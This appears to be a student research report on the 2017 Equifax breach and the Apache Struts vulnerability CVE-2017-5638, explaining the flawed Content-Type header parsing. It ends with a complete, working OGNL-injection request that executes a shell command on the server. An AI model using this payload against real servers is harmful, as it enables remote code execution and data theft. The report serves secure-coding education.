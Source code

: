 ## CCT College Dublin


|                        |                                                                                      |
|------------------------|--------------------------------------------------------------------------------------|
| **Module Title:**      | Secure Programming and Scripting                                                     |
| **Assessment Title:**  | Research Report on Security Breach Incidents: Lessons in Secure Coding and Scripting |
| **Lecturer Name:**     | David Gonzalez                                                                       |
| **Student Full Name:** | Javier Alfonso Ocampo                                                                |
| **Student Number:**    | 2024328                                                                              |


### Incident: The Equifax data breach (2017) - vulnerability in Apache Struts.

Equifax Inc. is an American multinational consumer credit reporting agency. Equifax collects and aggregates information on over 800 million individual consumers and more than 88 million businesses worldwide. The Equifax data breach of 2017 exposed sensitive personal and financial information of over 145 million individuals, making it one of the most significant cybersecurity incidents in history. The breach was caused by a vulnerability
in the **Apache Struts** framework ([CVE-2017-5638](https://nvd.nist.gov/vuln/detail/cve-2017-5638)), which had been publicly disclosed and patched in March
2017. However, Equifax failed to apply the patch promptly, leaving their systems exposed for months. This vulnerability allowed attackers to exploit a flaw in
the framework’s file upload component, enabling **remote code execution (RCE)** and unauthorised access to Equifax's databases.

Apache Struts is a free, open-source, MVC framework for creating Java web applications. The Jakarta Multipart component is part of the Apache Struts framework, responsible for handling file uploads in web applications. It processes multipart HTTP requests, typically used when users upload files alongside form data. This component is designed to parse incoming request data, separate the uploaded files, and make them accessible to the application.

In the case of [CVE-2017-5638](https://nvd.nist.gov/vuln/detail/cve-2017-5638), the Jakarta Multipart Parser contained a critical flaw in how it processed HTTP request headers. Specifically, attackers could craft malicious `Content-Type` headers containing executable code. The parser failed to properly validate and sanitize these headers, allowing the execution of arbitrary commands on the server. This vulnerability highlights how insecure input handling in critical components can lead to major security incidents, such as the Equifax data breach.


Example of a malicious content-type header:

```
POST /example-struts-action HTTP/1.1
Host: target-website.com
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):(\
#context.setMemberAccess(#dm))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(\
#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/sh','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(\
#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(\
#process.getInputStream(),#ros)).(#ros.flush())}
```
